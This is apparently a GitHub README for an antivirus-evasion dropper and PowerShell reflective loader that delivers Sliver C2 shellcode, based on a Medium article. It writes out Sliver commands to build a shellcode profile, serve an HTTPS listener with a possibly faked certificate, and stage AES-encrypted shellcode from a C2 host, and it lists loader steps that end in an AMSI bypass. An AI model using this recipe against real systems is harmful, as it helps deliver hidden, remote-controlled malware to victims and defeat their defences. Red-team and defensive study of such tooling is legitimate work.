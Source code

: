 # Bypass AV with Sliver c2
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new profile

`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Host SSL cert (you can fake with msf impersonate_ssl)

`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage profile shellcode

`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive at all (you need AMSI bypass).

1. Read in solution DLL assembly

`get-content -encoding byte -path .\sliverloader.dll | clip`

2. Convert your keys and IV to raw bytes.

3. Update loader script

4. Use `amsiscanbuffer()` bypass for entire process unhook including CLR
